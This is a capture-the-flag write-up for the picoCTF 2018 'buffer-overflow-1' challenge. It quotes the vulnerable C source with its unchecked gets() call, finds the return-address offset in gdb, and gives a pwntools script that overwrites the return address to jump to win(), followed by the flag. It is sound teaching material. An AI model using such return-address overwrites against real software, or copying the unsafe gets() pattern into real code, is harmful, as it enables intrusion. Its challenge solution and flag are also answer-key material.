 # Problem
Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this [program](https://2018shell1.picoctf.com/static/f8fb1e2f61e93367783d7831e70ef1a2/vuln)? You can find it in /problems/buffer-overflow-1_4_9d46ad1b74894db5d4831b91e19ee709 on the shell server. [Source](https://2018shell1.picoctf.com/static/f8fb1e2f61e93367783d7831e70ef1a2/vuln.c).

## Hints:
This time you're actually going to have to control that return address!

Make sure you consider Big Endian vs Little Endian.

## Solution:

Lets download the files:
```bash
wget https://2018shell1.picoctf.com/static/f8fb1e2f61e93367783d7831e70ef1a2/vuln
wget https://2018shell1.picoctf.com/static/f8fb1e2f61e93367783d7831e70ef1a2/vuln.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

The call to ```gets()``` in ```vuln()``` is unsafe, there is no limit checking.

We can override the return address and jump to win.

First we need to check the offset overriding the return address. We can use this gdbinit script
```
run < <(echo AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ)
```

Lets debug:
```bash
gdb -x ./gdbinit ./vuln

Stopped reason: SIGSEGV
0x4c4c4c4c in ?? ()
```

We know that ```LLLL``` overrides the return address.

Now lets write a simple python script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = ''
pw = ''

if debug:
  p = process('./vuln')
else:
  s = ssh(host = '2018shell1.picoctf.com', user=user, password=pw)
  s.set_working_directory('/problems/buffer-overflow-1_4_9d46ad1b74894db5d4831b91e19ee709')
  p = s.process('./vuln')

binary = ELF('./vuln')

print p.recvuntil('string:')
p.sendline('AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK' + p32(binary.symbols['win']))
print p.recvall()
```

Flag: picoCTF{addr3ss3s_ar3_3asyd69e032d}